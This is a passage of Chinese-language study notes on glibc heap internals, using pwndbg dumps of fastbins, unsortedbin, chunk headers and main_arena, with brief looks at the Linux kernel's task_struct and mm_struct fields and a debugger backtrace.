Addr: 0x602030
Size: 0x41
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
Addr: 0x602070
Size: 0x51
fd: 0x00

Top chunk | PREV_INUSE
Addr: 0x6020c0
Size: 0x20f41

```

bins：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x602000 ◂— 0x0
0x40: 0x602030 ◂— 0x0
0x50: 0x602070 ◂— 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

vis：

```c
pwndbg> vis

0x602000	0x0000000000000000	0x0000000000000031	........1.......	 <-- fastbins[0x30][0]
0x602010	0x0000000000000000	0x0000000000000000	................
0x602020	0x0000000000000000	0x0000000000000000	................
0x602030	0x0000000000000000	0x0000000000000041	........A.......	 <-- fastbins[0x40][0]
0x602040	0x0000000000000000	0x0000000000000000	................
0x602050	0x0000000000000000	0x0000000000000000	................
0x602060	0x0000000000000000	0x0000000000000000	................
0x602070	0x0000000000000000	0x0000000000000051	........Q.......	 <-- fastbins[0x50][0]
0x602080	0x0000000000000000	0x0000000000000000	................
0x602090	0x0000000000000000	0x0000000000000000	................
0x6020a0	0x0000000000000000	0x0000000000000000	................
0x6020b0	0x0000000000000000	0x0000000000000000	................
0x6020c0	0x0000000000000000	0x0000000000020f41	........A.......	 <-- Top chunk
```

查看main_arena：

```c
pwndbg> x/80x 0x7ffff7dd1b20
0x7ffff7dd1b20 <main_arena>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b30 <main_arena+16>:	0x00602000	0x00000000	0x00602030	0x00000000
0x7ffff7dd1b40 <main_arena+32>:	0x00602070	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b50 <main_arena+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b60 <main_arena+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b70 <main_arena+80>:	0x00000000	0x00000000	0x006020c0	0x00000000
0x7ffff7dd1b80 <main_arena+96>:	0x00000000	0x00000000	0xf7dd1b78	0x00007fff
0x7ffff7dd1b90 <main_arena+112>:	0xf7dd1b78	0x00007fff	0xf7dd1b88	0x00007fff
0x7ffff7dd1ba0 <main_arena+128>:	0xf7dd1b88	0x00007fff	0xf7dd1b98	0x00007fff
0x7ffff7dd1bb0 <main_arena+144>:	0xf7dd1b98	0x00007fff	0xf7dd1ba8	0x00007fff
0x7ffff7dd1bc0 <main_arena+160>:	0xf7dd1ba8	0x00007fff	0xf7dd1bb8	0x00007fff
0x7ffff7dd1bd0 <main_arena+176>:	0xf7dd1bb8	0x00007fff	0xf7dd1bc8	0x00007fff
0x7ffff7dd1be0 <main_arena+192>:	0xf7dd1bc8	0x00007fff	0xf7dd1bd8	0x00007fff
0x7ffff7dd1bf0 <main_arena+208>:	0xf7dd1bd8	0x00007fff	0xf7dd1be8	0x00007fff
0x7ffff7dd1c00 <main_arena+224>:	0xf7dd1be8	0x00007fff	0xf7dd1bf8	0x00007fff
0x7ffff7dd1c10 <main_arena+240>:	0xf7dd1bf8	0x00007fff	0xf7dd1c08	0x00007fff
0x7ffff7dd1c20 <main_arena+256>:	0xf7dd1c08	0x00007fff	0xf7dd1c18	0x00007fff
0x7ffff7dd1c30 <main_arena+272>:	0xf7dd1c18	0x00007fff	0xf7dd1c28	0x00007fff
0x7ffff7dd1c40 <main_arena+288>:	0xf7dd1c28	0x00007fff	0xf7dd1c38	0x00007fff
0x7ffff7dd1c50 <main_arena+304>:	0xf7dd1c38	0x00007fff	0xf7dd1c48	0x00007fff
```

print main_arena：

```c
pwndbg> print main_arena
$3 = {
  mutex = 0, 
  flags = 0, 
  fastbinsY = {0x0, 0x602000, 0x602030, 0x602070, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}, 
  top = 0x6020c0, 
  last_remainder = 0x0, 
  bins = {0x7ffff7dd1b78 <main_arena+88>, 0x7ffff7dd1b78 <main_arena+88>, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b98 <main_arena+120>, 0x7ffff7dd1b98 <main_arena+120>, 0x7ffff7dd1ba8 <main_arena+136>, 0x7ffff7dd1ba8 <main_arena+136>, 0x7ffff7dd1bb8 <main_arena+152>, 0x7ffff7dd1bb8 <main_arena+152>, 0x7ffff7dd1bc8 <main_arena+168>, 0x7ffff7dd1bc8 <main_arena+168>, 0x7ffff7dd1bd8 <main_arena+184>, 0x7ffff7dd1bd8 <main_arena+184>, 0x7ffff7dd1be8 <main_arena+200>, 0x7ffff7dd1be8 <main_arena+200>, 0x7ffff7dd1bf8 <main_arena+216>, 0x7ffff7dd1bf8 <main_arena+216>, 0x7ffff7dd1c08 <main_arena+232>, 0x7ffff7dd1c08 <main_arena+232>, 0x7ffff7dd1c18 <main_arena+248>, 0x7ffff7dd1c18 <main_arena+248>, 0x7ffff7dd1c28 <main_arena+264>, 0x7ffff7dd1c28 <main_arena+264>, 0x7ffff7dd1c38 <main_arena+280>, 0x7ffff7dd1c38 <main_arena+280>, 0x7ffff7dd1c48 <main_arena+296>, 0x7ffff7dd1c48 <main_arena+296>, 0x7ffff7dd1c58 <main_arena+312>, 0x7ffff7dd1c58 <main_arena+312>, 0x7ffff7dd1c68 <main_arena+328>, 0x7ffff7dd1c68 <main_arena+328>, 0x7ffff7dd1c78 <main_arena+344>, 0x7ffff7dd1c78 <main_arena+344>, 0x7ffff7dd1c88 <main_arena+360>, 0x7ffff7dd1c88 <main_arena+360>, 0x7ffff7dd1c98 <main_arena+376>, 0x7ffff7dd1c98 <main_arena+376>, 0x7ffff7dd1ca8 <main_arena+392>, 0x7ffff7dd1ca8 <main_arena+392>, 0x7ffff7dd1cb8 <main_arena+408>, 0x7ffff7dd1cb8 <main_arena+408>, 0x7ffff7dd1cc8 <main_arena+424>, 0x7ffff7dd1cc8 <main_arena+424>, 0x7ffff7dd1cd8 <main_arena+440>, 0x7ffff7dd1cd8 <main_arena+440>, 0x7ffff7dd1ce8 <main_arena+456>, 0x7ffff7dd1ce8 <main_arena+456>, 0x7ffff7dd1cf8 <main_arena+472>, 0x7ffff7dd1cf8 <main_arena+472>, 0x7ffff7dd1d08 <main_arena+488>, 0x7ffff7dd1d08 <main_arena+488>, 0x7ffff7dd1d18 <main_arena+504>, 0x7ffff7dd1d18 <main_arena+504>, 0x7ffff7dd1d28 <main_arena+520>, 0x7ffff7dd1d28 <main_arena+520>, 0x7ffff7dd1d38 <main_arena+536>, 0x7ffff7dd1d38 <main_arena+536>, 0x7ffff7dd1d48 <main_arena+552>, 0x7ffff7dd1d48 <main_arena+552>, 0x7ffff7dd1d58 <main_arena+568>, 0x7ffff7dd1d58 <main_arena+568>, 0x7ffff7dd1d68 <main_arena+584>, 0x7ffff7dd1d68 <main_arena+584>, 0x7ffff7dd1d78 <main_arena+600>, 0x7ffff7dd1d78 <main_arena+600>, 0x7ffff7dd1d88 <main_arena+616>, 0x7ffff7dd1d88 <main_arena+616>, 0x7ffff7dd1d98 <main_arena+632>, 0x7ffff7dd1d98 <main_arena+632>, 0x7ffff7dd1da8 <main_arena+648>, 0x7ffff7dd1da8 <main_arena+648>, 0x7ffff7dd1db8 <main_arena+664>, 0x7ffff7dd1db8 <main_arena+664>, 0x7ffff7dd1dc8 <main_arena+680>, 0x7ffff7dd1dc8 <main_arena+680>, 0x7ffff7dd1dd8 <main_arena+696>, 0x7ffff7dd1dd8 <main_arena+696>, 0x7ffff7dd1de8 <main_arena+712>, 0x7ffff7dd1de8 <main_arena+712>, 0x7ffff7dd1df8 <main_arena+728>, 0x7ffff7dd1df8 <main_arena+728>, 0x7ffff7dd1e08 <main_arena+744>, 0x7ffff7dd1e08 <main_arena+744>, 0x7ffff7dd1e18 <main_arena+760>, 0x7ffff7dd1e18 <main_arena+760>, 0x7ffff7dd1e28 <main_arena+776>, 0x7ffff7dd1e28 <main_arena+776>, 0x7ffff7dd1e38 <main_arena+792>, 0x7ffff7dd1e38 <main_arena+792>, 0x7ffff7dd1e48 <main_arena+808>, 0x7ffff7dd1e48 <main_arena+808>, 0x7ffff7dd1e58 <main_arena+824>, 0x7ffff7dd1e58 <main_arena+824>, 0x7ffff7dd1e68 <main_arena+840>, 0x7ffff7dd1e68 <main_arena+840>, 0x7ffff7dd1e78 <main_arena+856>, 0x7ffff7dd1e78 <main_arena+856>, 0x7ffff7dd1e88 <main_arena+872>, 0x7ffff7dd1e88 <main_arena+872>, 0x7ffff7dd1e98 <main_arena+888>, 0x7ffff7dd1e98 <main_arena+888>, 0x7ffff7dd1ea8 <main_arena+904>, 0x7ffff7dd1ea8 <main_arena+904>, 0x7ffff7dd1eb8 <main_arena+920>, 0x7ffff7dd1eb8 <main_arena+920>, 0x7ffff7dd1ec8 <main_arena+936>, 0x7ffff7dd1ec8 <main_arena+936>, 0x7ffff7dd1ed8 <main_arena+952>, 0x7ffff7dd1ed8 <main_arena+952>, 0x7ffff7dd1ee8 <main_arena+968>, 0x7ffff7dd1ee8 <main_arena+968>, 0x7ffff7dd1ef8 <main_arena+984>, 0x7ffff7dd1ef8 <main_arena+984>, 0x7ffff7dd1f08 <main_arena+1000>, 0x7ffff7dd1f08 <main_arena+1000>, 0x7ffff7dd1f18 <main_arena+1016>, 0x7ffff7dd1f18 <main_arena+1016>, 0x7ffff7dd1f28 <main_arena+1032>, 0x7ffff7dd1f28 <main_arena+1032>, 0x7ffff7dd1f38 <main_arena+1048>, 0x7ffff7dd1f38 <main_arena+1048>, 0x7ffff7dd1f48 <main_arena+1064>, 0x7ffff7dd1f48 <main_arena+1064>, 0x7ffff7dd1f58 <main_arena+1080>, 0x7ffff7dd1f58 <main_arena+1080>, 0x7ffff7dd1f68 <main_arena+1096>, 0x7ffff7dd1f68 <main_arena+1096>, 0x7ffff7dd1f78 <main_arena+1112>, 0x7ffff7dd1f78 <main_arena+1112>, 0x7ffff7dd1f88 <main_arena+1128>, 0x7ffff7dd1f88 <main_arena+1128>, 0x7ffff7dd1f98 <main_arena+1144>, 0x7ffff7dd1f98 <main_arena+1144>, 0x7ffff7dd1fa8 <main_arena+1160>, 0x7ffff7dd1fa8 <main_arena+1160>, 0x7ffff7dd1fb8 <main_arena+1176>, 0x7ffff7dd1fb8 <main_arena+1176>, 0x7ffff7dd1fc8 <main_arena+1192>, 0x7ffff7dd1fc8 <main_arena+1192>, 0x7ffff7dd1fd8 <main_arena+1208>, 0x7ffff7dd1fd8 <main_arena+1208>, 0x7ffff7dd1fe8 <main_arena+1224>, 0x7ffff7dd1fe8 <main_arena+1224>, 0x7ffff7dd1ff8 <main_arena+1240>, 0x7ffff7dd1ff8 <main_arena+1240>, 0x7ffff7dd2008 <main_arena+1256>, 0x7ffff7dd2008 <main_arena+1256>, 0x7ffff7dd2018 <main_arena+1272>, 0x7ffff7dd2018 <main_arena+1272>, 0x7ffff7dd2028 <main_arena+1288>, 0x7ffff7dd2028 <main_arena+1288>, 0x7ffff7dd2038 <main_arena+1304>, 0x7ffff7dd2038 <main_arena+1304>, 0x7ffff7dd2048 <main_arena+1320>, 0x7ffff7dd2048 <main_arena+1320>, 0x7ffff7dd2058 <main_arena+1336>, 0x7ffff7dd2058 <main_arena+1336>, 0x7ffff7dd2068 <main_arena+1352>, 0x7ffff7dd2068 <main_arena+1352>, 0x7ffff7dd2078 <main_arena+1368>, 0x7ffff7dd2078 <main_arena+1368>, 0x7ffff7dd2088 <main_arena+1384>, 0x7ffff7dd2088 <main_arena+1384>, 0x7ffff7dd2098 <main_arena+1400>, 0x7ffff7dd2098 <main_arena+1400>, 0x7ffff7dd20a8 <main_arena+1416>, 0x7ffff7dd20a8 <main_arena+1416>, 0x7ffff7dd20b8 <main_arena+1432>, 0x7ffff7dd20b8 <main_arena+1432>, 0x7ffff7dd20c8 <main_arena+1448>, 0x7ffff7dd20c8 <main_arena+1448>, 0x7ffff7dd20d8 <main_arena+1464>, 0x7ffff7dd20d8 <main_arena+1464>, 0x7ffff7dd20e8 <main_arena+1480>, 0x7ffff7dd20e8 <main_arena+1480>, 0x7ffff7dd20f8 <main_arena+1496>, 0x7ffff7dd20f8 <main_arena+1496>, 0x7ffff7dd2108 <main_arena+1512>, 0x7ffff7dd2108 <main_arena+1512>, 0x7ffff7dd2118 <main_arena+1528>, 0x7ffff7dd2118 <main_arena+1528>, 0x7ffff7dd2128 <main_arena+1544>, 0x7ffff7dd2128 <main_arena+1544>, 0x7ffff7dd2138 <main_arena+1560>, 0x7ffff7dd2138 <main_arena+1560>, 0x7ffff7dd2148 <main_arena+1576>, 0x7ffff7dd2148 <main_arena+1576>, 0x7ffff7dd2158 <main_arena+1592>, 0x7ffff7dd2158 <main_arena+1592>, 0x7ffff7dd2168 <main_arena+1608>, 0x7ffff7dd2168 <main_arena+1608>, 0x7ffff7dd2178 <main_arena+1624>, 0x7ffff7dd2178 <main_arena+1624>, 0x7ffff7dd2188 <main_arena+1640>, 0x7ffff7dd2188 <main_arena+1640>, 0x7ffff7dd2198 <main_arena+1656>, 0x7ffff7dd2198 <main_arena+1656>, 0x7ffff7dd21a8 <main_arena+1672>, 0x7ffff7dd21a8 <main_arena+1672>...}, 
  binmap = {0, 0, 0, 0}, 
  next = 0x7ffff7dd1b20 <main_arena>, 
  next_free = 0x0, 
  attached_threads = 1, 
  system_mem = 135168, 
  max_system_mem = 135168
}
```

是吧，看到了吧，我们看到fastbin的内容出现在main_arena里面。

# malloc_chunk

---

代码：

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
int main(){
	int* p4=(int*)malloc(0xb1);
	int* p5=(int*)malloc(0xb1);
	int* p6=(int*)malloc(0xb1);

	free(p4);
	free(p5);
	free(p6);
} 
```


这是完成3次malloc后的:


我们可以看到，chunk本来嘛，就应该是这样的：

```bash
0x602000	0x0000000000000000	0x00000000000000c1	................
0x602010	0x0000000000000000	0x0000000000000000	................
0x602020	0x0000000000000000	0x0000000000000000	................
0x602030	0x0000000000000000	0x0000000000000000	................
0x602040	0x0000000000000000	0x0000000000000000	................
0x602050	0x0000000000000000	0x0000000000000000	................
0x602060	0x0000000000000000	0x0000000000000000	................
0x602070	0x0000000000000000	0x0000000000000000	................
0x602080	0x0000000000000000	0x0000000000000000	................
0x602090	0x0000000000000000	0x0000000000000000	................
0x6020a0	0x0000000000000000	0x0000000000000000	................
0x6020b0	0x0000000000000000	0x0000000000000000	................
```

0xc1表示chunk的大小。但是呢，由于pre_size的规则，当前一个chunk为正在使用时，pre_size归上个chunk。所以pre_siz归上个chunk管。

那chunk1说：chunk2，你的pre_siz归我管。

那chunk2说：chunk3，你的pre_siz归我管。

chunk3找谁去呢？找Top_chunk。

这就很好了。

如果free了呢？下图是free了第一个chunk：



对，chunk1被free了，那么chunk2的pre_siz就还给chunk2。

由于我分配的chunk比较大，所以free会先被放进unsortedbin

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000
smallbins
empty
largebins
empty
pwndbg> 
```


# main_arena

顺着上文，我们看到了一个叫做main_arena的东西。好，我们就来看看这个东西：

```c
pwndbg> print main_arena
$2 = {
  mutex = 0, 
  flags = 1, 
  fastbinsY = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}, 
  top = 0x602240, 
  last_remainder = 0x0, 
  bins = {0x602000, 0x602000, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b98 <main_arena+120>, 0x7ffff7dd1b98 <main_arena+120>, 0x7ffff7dd1ba8 <main_arena+136>, 0x7ffff7dd1ba8 <main_arena+136>, 0x7ffff7dd1bb8 <main_arena+152>, 0x7ffff7dd1bb8 <main_arena+152>, 0x7ffff7dd1bc8 <main_arena+168>, 0x7ffff7dd1bc8 <main_arena+168>, 0x7ffff7dd1bd8 <main_arena+184>, 0x7ffff7dd1bd8 <main_arena+184>, 0x7ffff7dd1be8 <main_arena+200>, 0x7ffff7dd1be8 <main_arena+200>, 0x7ffff7dd1bf8 <main_arena+216>, 0x7ffff7dd1bf8 <main_arena+216>, 0x7ffff7dd1c08 <main_arena+232>, 0x7ffff7dd1c08 <main_arena+232>, 0x7ffff7dd1c18 <main_arena+248>, 0x7ffff7dd1c18 <main_arena+248>, 0x7ffff7dd1c28 <main_arena+264>, 0x7ffff7dd1c28 <main_arena+264>, 0x7ffff7dd1c38 <main_arena+280>, 0x7ffff7dd1c38 <main_arena+280>, 0x7ffff7dd1c48 <main_arena+296>, 0x7ffff7dd1c48 <main_arena+296>, 0x7ffff7dd1c58 <main_arena+312>, 0x7ffff7dd1c58 <main_arena+312>, 0x7ffff7dd1c68 <main_arena+328>, 0x7ffff7dd1c68 <main_arena+328>, 0x7ffff7dd1c78 <main_arena+344>, 0x7ffff7dd1c78 <main_arena+344>, 0x7ffff7dd1c88 <main_arena+360>, 0x7ffff7dd1c88 <main_arena+360>, 0x7ffff7dd1c98 <main_arena+376>, 0x7ffff7dd1c98 <main_arena+376>, 0x7ffff7dd1ca8 <main_arena+392>, 0x7ffff7dd1ca8 <main_arena+392>, 0x7ffff7dd1cb8 <main_arena+408>, 0x7ffff7dd1cb8 <main_arena+408>, 0x7ffff7dd1cc8 <main_arena+424>, 0x7ffff7dd1cc8 <main_arena+424>, 0x7ffff7dd1cd8 <main_arena+440>, 0x7ffff7dd1cd8 <main_arena+440>, 0x7ffff7dd1ce8 <main_arena+456>, 0x7ffff7dd1ce8 <main_arena+456>, 0x7ffff7dd1cf8 <main_arena+472>, 0x7ffff7dd1cf8 <main_arena+472>, 0x7ffff7dd1d08 <main_arena+488>, 0x7ffff7dd1d08 <main_arena+488>, 0x7ffff7dd1d18 <main_arena+504>, 0x7ffff7dd1d18 <main_arena+504>, 0x7ffff7dd1d28 <main_arena+520>, 0x7ffff7dd1d28 <main_arena+520>, 0x7ffff7dd1d38 <main_arena+536>, 0x7ffff7dd1d38 <main_arena+536>, 0x7ffff7dd1d48 <main_arena+552>, 0x7ffff7dd1d48 <main_arena+552>, 0x7ffff7dd1d58 <main_arena+568>, 0x7ffff7dd1d58 <main_arena+568>, 0x7ffff7dd1d68 <main_arena+584>, 0x7ffff7dd1d68 <main_arena+584>, 0x7ffff7dd1d78 <main_arena+600>, 0x7ffff7dd1d78 <main_arena+600>, 0x7ffff7dd1d88 <main_arena+616>, 0x7ffff7dd1d88 <main_arena+616>, 0x7ffff7dd1d98 <main_arena+632>, 0x7ffff7dd1d98 <main_arena+632>, 0x7ffff7dd1da8 <main_arena+648>, 0x7ffff7dd1da8 <main_arena+648>, 0x7ffff7dd1db8 <main_arena+664>, 0x7ffff7dd1db8 <main_arena+664>, 0x7ffff7dd1dc8 <main_arena+680>, 0x7ffff7dd1dc8 <main_arena+680>, 0x7ffff7dd1dd8 <main_arena+696>, 0x7ffff7dd1dd8 <main_arena+696>, 0x7ffff7dd1de8 <main_arena+712>, 0x7ffff7dd1de8 <main_arena+712>, 0x7ffff7dd1df8 <main_arena+728>, 0x7ffff7dd1df8 <main_arena+728>, 0x7ffff7dd1e08 <main_arena+744>, 0x7ffff7dd1e08 <main_arena+744>, 0x7ffff7dd1e18 <main_arena+760>, 0x7ffff7dd1e18 <main_arena+760>, 0x7ffff7dd1e28 <main_arena+776>, 0x7ffff7dd1e28 <main_arena+776>, 0x7ffff7dd1e38 <main_arena+792>, 0x7ffff7dd1e38 <main_arena+792>, 0x7ffff7dd1e48 <main_arena+808>, 0x7ffff7dd1e48 <main_arena+808>, 0x7ffff7dd1e58 <main_arena+824>, 0x7ffff7dd1e58 <main_arena+824>, 0x7ffff7dd1e68 <main_arena+840>, 0x7ffff7dd1e68 <main_arena+840>, 0x7ffff7dd1e78 <main_arena+856>, 0x7ffff7dd1e78 <main_arena+856>, 0x7ffff7dd1e88 <main_arena+872>, 0x7ffff7dd1e88 <main_arena+872>, 0x7ffff7dd1e98 <main_arena+888>, 0x7ffff7dd1e98 <main_arena+888>, 0x7ffff7dd1ea8 <main_arena+904>, 0x7ffff7dd1ea8 <main_arena+904>, 0x7ffff7dd1eb8 <main_arena+920>, 0x7ffff7dd1eb8 <main_arena+920>, 0x7ffff7dd1ec8 <main_arena+936>, 0x7ffff7dd1ec8 <main_arena+936>, 0x7ffff7dd1ed8 <main_arena+952>, 0x7ffff7dd1ed8 <main_arena+952>, 0x7ffff7dd1ee8 <main_arena+968>, 0x7ffff7dd1ee8 <main_arena+968>, 0x7ffff7dd1ef8 <main_arena+984>, 0x7ffff7dd1ef8 <main_arena+984>, 0x7ffff7dd1f08 <main_arena+1000>, 0x7ffff7dd1f08 <main_arena+1000>, 0x7ffff7dd1f18 <main_arena+1016>, 0x7ffff7dd1f18 <main_arena+1016>, 0x7ffff7dd1f28 <main_arena+1032>, 0x7ffff7dd1f28 <main_arena+1032>, 0x7ffff7dd1f38 <main_arena+1048>, 0x7ffff7dd1f38 <main_arena+1048>, 0x7ffff7dd1f48 <main_arena+1064>, 0x7ffff7dd1f48 <main_arena+1064>, 0x7ffff7dd1f58 <main_arena+1080>, 0x7ffff7dd1f58 <main_arena+1080>, 0x7ffff7dd1f68 <main_arena+1096>, 0x7ffff7dd1f68 <main_arena+1096>, 0x7ffff7dd1f78 <main_arena+1112>, 0x7ffff7dd1f78 <main_arena+1112>, 0x7ffff7dd1f88 <main_arena+1128>, 0x7ffff7dd1f88 <main_arena+1128>, 0x7ffff7dd1f98 <main_arena+1144>, 0x7ffff7dd1f98 <main_arena+1144>, 0x7ffff7dd1fa8 <main_arena+1160>, 0x7ffff7dd1fa8 <main_arena+1160>, 0x7ffff7dd1fb8 <main_arena+1176>, 0x7ffff7dd1fb8 <main_arena+1176>, 0x7ffff7dd1fc8 <main_arena+1192>, 0x7ffff7dd1fc8 <main_arena+1192>, 0x7ffff7dd1fd8 <main_arena+1208>, 0x7ffff7dd1fd8 <main_arena+1208>, 0x7ffff7dd1fe8 <main_arena+1224>, 0x7ffff7dd1fe8 <main_arena+1224>, 0x7ffff7dd1ff8 <main_arena+1240>, 0x7ffff7dd1ff8 <main_arena+1240>, 0x7ffff7dd2008 <main_arena+1256>, 0x7ffff7dd2008 <main_arena+1256>, 0x7ffff7dd2018 <main_arena+1272>, 0x7ffff7dd2018 <main_arena+1272>, 0x7ffff7dd2028 <main_arena+1288>, 0x7ffff7dd2028 <main_arena+1288>, 0x7ffff7dd2038 <main_arena+1304>, 0x7ffff7dd2038 <main_arena+1304>, 0x7ffff7dd2048 <main_arena+1320>, 0x7ffff7dd2048 <main_arena+1320>, 0x7ffff7dd2058 <main_arena+1336>, 0x7ffff7dd2058 <main_arena+1336>, 0x7ffff7dd2068 <main_arena+1352>, 0x7ffff7dd2068 <main_arena+1352>, 0x7ffff7dd2078 <main_arena+1368>, 0x7ffff7dd2078 <main_arena+1368>, 0x7ffff7dd2088 <main_arena+1384>, 0x7ffff7dd2088 <main_arena+1384>, 0x7ffff7dd2098 <main_arena+1400>, 0x7ffff7dd2098 <main_arena+1400>, 0x7ffff7dd20a8 <main_arena+1416>, 0x7ffff7dd20a8 <main_arena+1416>, 0x7ffff7dd20b8 <main_arena+1432>, 0x7ffff7dd20b8 <main_arena+1432>, 0x7ffff7dd20c8 <main_arena+1448>, 0x7ffff7dd20c8 <main_arena+1448>, 0x7ffff7dd20d8 <main_arena+1464>, 0x7ffff7dd20d8 <main_arena+1464>, 0x7ffff7dd20e8 <main_arena+1480>, 0x7ffff7dd20e8 <main_arena+1480>, 0x7ffff7dd20f8 <main_arena+1496>, 0x7ffff7dd20f8 <main_arena+1496>, 0x7ffff7dd2108 <main_arena+1512>, 0x7ffff7dd2108 <main_arena+1512>, 0x7ffff7dd2118 <main_arena+1528>, 0x7ffff7dd2118 <main_arena+1528>, 0x7ffff7dd2128 <main_arena+1544>, 0x7ffff7dd2128 <main_arena+1544>, 0x7ffff7dd2138 <main_arena+1560>, 0x7ffff7dd2138 <main_arena+1560>, 0x7ffff7dd2148 <main_arena+1576>, 0x7ffff7dd2148 <main_arena+1576>, 0x7ffff7dd2158 <main_arena+1592>, 0x7ffff7dd2158 <main_arena+1592>, 0x7ffff7dd2168 <main_arena+1608>, 0x7ffff7dd2168 <main_arena+1608>, 0x7ffff7dd2178 <main_arena+1624>, 0x7ffff7dd2178 <main_arena+1624>, 0x7ffff7dd2188 <main_arena+1640>, 0x7ffff7dd2188 <main_arena+1640>, 0x7ffff7dd2198 <main_arena+1656>, 0x7ffff7dd2198 <main_arena+1656>, 0x7ffff7dd21a8 <main_arena+1672>, 0x7ffff7dd21a8 <main_arena+1672>...}, 
  binmap = {0, 0, 0, 0}, 
  next = 0x7ffff7dd1b20 <main_arena>, 
  next_free = 0x0, 
  attached_threads = 1, 
  system_mem = 135168, 
  max_system_mem = 135168
}
pwndbg> 

```

这不就是malloc_state的结构吗？

由于我们free了第二个chunk，所以呢，这两个chunk会被合并。此时查看bin：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000
smallbins
empty
largebins
empty
```

此时查看vis:



你看，是不是合并了？chunk3的size为0xc0，说明上一个chunk为free的。

好，我们继续看main_arena：

```c
pwndbg> x/80x 0x00007ffff7dd1b20
0x7ffff7dd1b20 <main_arena>:	0x00000000	0x00000001	0x00000000	0x00000000
0x7ffff7dd1b30 <main_arena+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b40 <main_arena+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b50 <main_arena+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b60 <main_arena+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7ffff7dd1b70 <main_arena+80>:	0x00000000	0x00000000	0x00602240	0x00000000
0x7ffff7dd1b80 <main_arena+96>:	0x00000000	0x00000000	0x00602000	0x00000000
0x7ffff7dd1b90 <main_arena+112>:	0x00602000	0x00000000	0xf7dd1b88	0x00007fff
0x7ffff7dd1ba0 <main_arena+128>:	0xf7dd1b88	0x00007fff	0xf7dd1b98	0x00007fff
0x7ffff7dd1bb0 <main_arena+144>:	0xf7dd1b98	0x00007fff	0xf7dd1ba8	0x00007fff
0x7ffff7dd1bc0 <main_arena+160>:	0xf7dd1ba8	0x00007fff	0xf7dd1bb8	0x00007fff
0x7ffff7dd1bd0 <main_arena+176>:	0xf7dd1bb8	0x00007fff	0xf7dd1bc8	0x00007fff
0x7ffff7dd1be0 <main_arena+192>:	0xf7dd1bc8	0x00007fff	0xf7dd1bd8	0x00007fff
0x7ffff7dd1bf0 <main_arena+208>:	0xf7dd1bd8	0x00007fff	0xf7dd1be8	0x00007fff
0x7ffff7dd1c00 <main_arena+224>:	0xf7dd1be8	0x00007fff	0xf7dd1bf8	0x00007fff
0x7ffff7dd1c10 <main_arena+240>:	0xf7dd1bf8	0x00007fff	0xf7dd1c08	0x00007fff
0x7ffff7dd1c20 <main_arena+256>:	0xf7dd1c08	0x00007fff	0xf7dd1c18	0x00007fff
0x7ffff7dd1c30 <main_arena+272>:	0xf7dd1c18	0x00007fff	0xf7dd1c28	0x00007fff
0x7ffff7dd1c40 <main_arena+288>:	0xf7dd1c28	0x00007fff	0xf7dd1c38	0x00007fff
0x7ffff7dd1c50 <main_arena+304>:	0xf7dd1c38	0x00007fff	0xf7dd1c48	0x00007fff
```

你看，和

```bash
pwndbg> print main_arena
```

显示的是不是一样？

我们看看main_arena在vmmp的那个地方？



0x7ffff7dd1b20，是不是在**0x7ffff7dd1000----0x7ffff7dd3000**位置处？

就是在libc-2.2.so里面。有趣，真是有趣。


# task_chunk

进程描述符，内部成员包含了很多与进程相关的信息


---


在linux内核0.12版本中，找到这个结构体。

但太大了，就不放出来了。

---

5.17.1版本的task_chunk中，我们来看一写这个结构体：

## 进程标识符

```c
pid_t				pid;
pid_t				tgid;
```

## 进程内核栈

```c
void				*stack;
```


## 表示进程亲属关系的成员

```c
	struct task_struct __rcu	*real_parent;
	struct task_struct __rcu	*parent;
	struct list_head		children;
	struct list_head		sibling;
	struct task_struct		*group_leader;
```

## task_struct和mm_strcuct的联系

```c
	struct mm_struct		*mm;
	struct mm_struct		*active_mm;
```

由此，我们就可以去研究mm_strcuct了。


# mm_struct

内存描述符


---


内核版本：5.17.1:

```c
unsigned long start_code, end_code, start_data, end_data;
unsigned long start_brk, brk, start_stack;
unsigned long arg_start, arg_end, env_start, env_end;
```

显然，这些就是指向虚拟内存的。虽然有些，比如stack_end什么的我没找到，但大致就是这个过程。




# pwndbg-BACKTRACE

```sh
───────────────────────────────────[BACKTRACE]─────────────────────────────────────────────
 ► f 0   0x7ffff7a5a1a4 vfprintf+36
   f 1   0x7ffff7a628a9 printf+153
   f 2         0x400539 main+19
   f 3   0x7ffff7a2d840 __libc_start_main+240
───────────────────────────────────────────────────────────────────────────────────────────
```


今天看明白了，这里显示的是进入的缓冲区的返回地址。

输入backtrace：

```sh
──────────────────────[BACKTRACE]───────────────────────────────────────────────────────────
 ► f 0   0x7ffff7a5a1a4 vfprintf+36
   f 1   0x7ffff7a628a9 printf+153
   f 2         0x400539 main+19
   f 3   0x7ffff7a2d840 __libc_start_main+240
────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> backtrace
